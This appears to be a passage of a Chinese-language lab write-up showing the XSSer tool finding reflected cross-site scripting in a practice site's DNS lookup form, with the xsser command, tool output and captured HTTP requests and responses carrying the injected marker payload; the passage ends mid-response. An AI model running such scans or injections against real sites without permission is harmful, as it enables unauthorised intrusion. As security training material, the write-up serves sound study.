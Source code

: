 ```
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 7ca47cdaf2dee46c908fd67911f9aef0
[*] Payload: target_host=%22%3E7ca47cdaf2dee46c908fd67911f9aef0&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 

```
可以看到，该工具发现了XSS漏洞。使用Wireshark监听该过程：

请求：其中POST参数`target_host`的值为`">7ca47cdaf2dee46c908fd67911f9aef0`。
```
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; AOL 8.0; Windows NT 5.1; SV1)
Accept: */*
Referer: 127.0.0.1
Content-Length: 90
Content-Type: application/x-www-form-urlencoded

target_host=%22%3E7ca47cdaf2dee46c908fd67911f9aef0&dns-lookup-php-submit-button=Lookup+DNSHTTP/1.1 200 OK
```

响应：从响应的页面中，工具提取到了该hash值。
```
Date: Thu, 30 Jun 2022 02:50:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=ircc2c3g8ouvs49bkdj78n6ad6; path=/
Set-Cookie: showhints=1
Logged-In-User: 
X-XSS-Protection: 0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html

<div>Results for ">7ca47cdaf2dee46c908fd67911f9aef0</div>
```
一个疑问：工具如何判断攻击向量被执行了？

使用以下命令：

```
xsser -u 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=X1S&dns-lookup-php-submit-button=Lookup+DNS'
```
请求：POST参数`target_host`的值为`">27509654438967080688833640780508`。
```
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36
Accept: */*
Referer: 127.0.0.1
Content-Length: 90
Content-Type: application/x-www-form-urlencoded

target_host=%22%3E27509654438967080688833640780508&dns-lookup-php-submit-button=Lookup+DNSHTTP/1.1 200 OK
```
响应：工具从响应中提取到了攻击向量。
```
Date: Thu, 30 Jun 2022 03:09:45 GMT
Server: Apache/2.4.7 (Ubuntu)
```
